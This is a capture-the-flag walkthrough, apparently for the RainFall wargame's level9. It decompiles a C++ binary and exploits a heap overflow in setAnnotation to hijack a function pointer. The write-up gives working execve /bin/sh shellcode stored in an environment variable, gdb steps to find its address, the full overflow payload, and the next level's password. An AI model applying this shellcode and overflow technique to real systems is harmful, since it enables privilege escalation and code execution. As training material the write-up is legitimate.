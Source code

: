 ###  Walkthrough

```cpp
// Ghidra
void main(int param_1,int param_2)
{
  N *this;
  code **this_00;

  if (param_1 < 2) {
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N(this,5);
  this_00 = (code **)operator.new(0x6c);
  N((N *)this_00,6);
  setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
```

```cpp
// Retdec
// Address range: 0x80485f4 - 0x804869a
int main(int argc, char ** argv) {
    if (argc <= 1) {
        // 0x8048604
        _exit(1);
        // UNREACHABLE
    }
    int32_t * v1 = _Znwj(108); // 0x8048617
    _ZN1NC1Ei(v1, 5);
    int32_t * v2 = _Znwj(108); // 0x8048639
    _ZN1NC1Ei(v2, 6);
    _ZN1N13setAnnotationEPc(v1, (char *)*(int32_t *)((int32_t)argv + 4));
    return (int32_t)v2;
}
```

This level was one of the toughest for us...

<u>Here is how we managed to gain privileges :</u>

First, let's try understanding it's execution :

* The program takes one parameter.

* It then checks, according to Retdec and our tests, that argc > 1, otherwise it exits

* It then instantiates 2 objects, this and this00. These instantiations hide malloc instructions that happen in the heap, so their memory adresses may follow in memory.

```cpp
void __thiscall setAnnotation(N *this,char *param_1)
{
  size_t __n;

  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

* If our argv[1] is +108 long, we begin to overflow `this` and start writing at the beginning of `this00`

The next important part before beginning our exploit is : 

```cpp 
  (**(code **)*this_00)(this_00,this);
```

This line is basically a function pointer on the value at the address of this_00.

So, in order to make it work, we first have to find the address of the `this` : 

```bash
level9@RainFall:~$ ltrace ./level9 yo
__libc_start_main(0x80485f4, 2, 0xbffff7a4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)             = 0
_Znwj(108, 0xbffff7a4, 0xbffff7b0, 0xb7d79e55, 0xb7fed280)                        = 0x804a008
_Znwj(108, 5, 0xbffff7b0, 0xb7d79e55, 0xb7fed280)                                 = 0x804a078
strlen("yo")                                                                      = 2
memcpy(0x0804a00c, "yo", 2)                                                       = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)           = 0xb7fce4a0
+++ exited (status 11) +++
```

Here, at this line : `memcpy(0x0804a00c, "yo", 2) = 0x0804a00c`, we see that the dest address of memcpy is `0x0804a00c`. If we check again on the source code, it's the address of the beginning of the data of our `this` object.

Then, we need to see the padding required, and check wether it worked :

```bash
level9@RainFall:~$ ./level9 `python -c 'print(108 * "A" + "BBBB")'`
Segmentation fault (core dumped)
level9@RainFall:~$ dmesg
...
[45298.046277] level9[10396]: segfault at 42424242 ip 08048682 sp bffff670 error 4 in level9[8048000+1000]
```

We find our "BBBB" string, this means that it worked.

After some trials and errors, in order to make it work, we stored our shellcode inside our environnement :

```bash
export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\xb0\x0b\xbb\x2f\x2f\x73\x68\xc1\xeb\x08\x53\xbb\x2f\x62\x69\x6e\x53\x89\xe3\x31\xc9\x31\xd2\xcd\x80")'`
```

We thus need to find it's address :

```bash
$ gdb ./level9
$ b *main
$ r
$ x/100x *environ
0xbffff887:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff897:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff8a7:	0x90909090	0x90909090	0x6850c031	0x68732f2f
0xbffff8b7:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
0xbffff8c7:	0x4c454853	0x622f3d4c	0x622f6e69	0x00687361
0xbffff8d7:	0x4d524554	0x6574783d	0x322d6d72	0x6f633635
0xbffff8e7:	0x00726f6c	0x5f485353	0x45494c43	0x313d544e
0xbffff8f7:	0x312e3239	0x352e3836	0x20312e36	0x36303336
0xbffff907:	0x32342035	0x53003234	0x545f4853	0x2f3d5954
0xbffff917:	0x2f766564	0x2f737470	0x53550031	0x6c3d5245
0xbffff927:	0x6c657665	0x534c0039	0x4c4f435f	0x3d53524f
0xbffff937:	0x303d7372	0x3d69643a	0x333b3130	0x6e6c3a34
0xbffff947:	0x3b31303d	0x6d3a3633	0x30303d68	0x3d69703a
0xbffff957:	0x333b3034	0x6f733a33	0x3b31303d	0x643a3533
0xbffff967:	0x31303d6f	0x3a35333b	0x343d6462	0x33333b30
0xbffff977:	0x3a31303b	0x343d6463	0x33333b30	0x3a31303b
0xbffff987:	0x343d726f	0x31333b30	0x3a31303b	0x333d7573
0xbffff997:	0x31343b37	0x3d67733a	0x343b3033	0x61633a33
0xbffff9a7:	0x3b30333d	0x743a3134	0x30333d77	0x3a32343b
0xbffff9b7:	0x333d776f	0x32343b34	0x3d74733a	0x343b3733
0xbffff9c7:	0x78653a34	0x3b31303d	0x2a3a3233	0x7261742e
0xbffff9d7:	0x3b31303d	0x2a3a3133	0x7a67742e	0x3b31303d
0xbffff9e7:	0x2a3a3133	0x6a72612e	0x3b31303d	0x2a3a3133
0xbffff9f7:	0x7a61742e	0x3b31303d	0x2a3a3133	0x687a6c2e
0xbffffa07:	0x3b31303d	0x2a3a3133	0x6d7a6c2e	0x31303d61
```

Select the address of one of the line containing our nop instructions : `0xbffff897` for example

We now have all the required infos, let's write our payload :

```bash
$ ./level9 `python -c 'print("\xa7\xf8\xff\xbf" * 2  + 88 * "A" + 4 * "\x0c\xa0\x04\x08")'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

```bash
su bonus0
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

